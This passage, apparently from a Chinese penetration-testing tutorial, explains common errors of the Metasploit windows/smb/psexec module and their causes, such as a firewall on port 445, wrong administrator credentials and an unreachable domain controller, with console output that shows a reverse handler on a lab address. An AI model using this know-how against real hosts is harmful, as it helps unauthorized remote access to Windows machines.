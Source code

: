 

### (2) Rex::ConnectionTimeout The connection timed out

报错原因：目标主机开启系统防火墙并阻止了445端口的连接。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[-] Exploit failed [unreachable]: Rex::ConnectionTimeout The connection timed out (192.168.1.108:445).
```



### (3) Rex::HostUnreachable The host was unreachable

报错原因：目标主机无法访问，可能处于关机状态或者没有连接到网络。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[-] Exploit failed [unreachable]: Rex::HostUnreachable The host (192.168.1.108:445) was unreachable.
```



### (4) Rex::ConnectionRefused The connection was refused by the remote host

报错原因：目标主机445端口处于关闭状态或者Server服务处于停止状态。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[-] Exploit failed [unreachable]: Rex::ConnectionRefused The connection was refused by the remote host (192.168.1.108:445).

```

### (5) Rex::Proto::SMB::Exceptions::LoginError Login Failed: execution expired

报错原因：验证过程中发生错误，如果目标主机在使用域中的帐户执行MSF Psexec时无法访问DC计算机，则会收到此错误。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445|WORKGROUP as user '90sec'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: execution expired
```



### (6) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_LOGON_FAILURE

报错原因：目标主机管理员账户或密码不正确。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)
```
